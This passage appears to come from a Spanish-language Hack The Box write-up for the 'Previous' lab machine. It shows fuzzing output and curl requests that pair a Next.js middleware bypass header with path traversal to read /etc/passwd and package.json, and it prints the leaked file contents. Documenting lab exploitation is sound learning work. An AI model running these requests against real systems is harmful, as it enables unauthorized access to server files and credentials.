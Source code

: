 ```
example                 [Status: 200, Size: 787, Words: 1, Lines: 20, Duration: 569ms]
:: Progress: [20469/20469] :: Job [1/1] :: 331 req/sec :: Duration: [0:01:04] :: Errors: 0 ::
```

Veremos que ha funcionado, hay un parametro llamado `example` que puede leer archivos del sistema, un `LFI`, vamos a verlo con un `curl`.

```shell
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" "http://previous.htb/api/download?example=../../../../../../etc/passwd"
```

Info:

```
root:x:0:0:root:/root:/bin/sh
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/mail:/sbin/nologin
news:x:9:13:news:/usr/lib/news:/sbin/nologin
uucp:x:10:14:uucp:/var/spool/uucppublic:/sbin/nologin
cron:x:16:16:cron:/var/spool/cron:/sbin/nologin
ftp:x:21:21::/var/lib/ftp:/sbin/nologin
sshd:x:22:22:sshd:/dev/null:/sbin/nologin
games:x:35:35:games:/usr/games:/sbin/nologin
ntp:x:123:123:NTP:/var/empty:/sbin/nologin
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000::/home/node:/bin/sh
nextjs:x:1001:65533::/home/nextjs:/sbin/nologin
```

Vemos que esta funcionando de forma correcta, por lo que podemos deducir que este servicio esta corriendo con el usuario `node` o bajo algun usuario en alguna carpeta, por lo que vamos a salirnos desde la ruta donde estemos ejecutando ese `download` y hacer un `../` hasta que nos muestre informacion de algun archivo.

## Escalate user jeremy

Si hacemos esto:

```shell
curl -H "X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware" "http://previous.htb/api/download?example=../../package.json"
```

Info:

```
{
  "private": true,
  "scripts": {
    "dev": "next dev",
    "build": "next build"
  },
  "dependencies": {
    "@mdx-js/loader": "^3.1.0",
    "@mdx-js/react": "^3.1.0",
    "@next/mdx": "^15.3.0",
    "@tailwindcss/postcss": "^4.1.3",
    "@tailwindcss/typography": "^0.5.16",
    "@types/mdx": "^2.0.13",
    "next": "^15.2.2",
    "next-auth": "^4.24.11",
```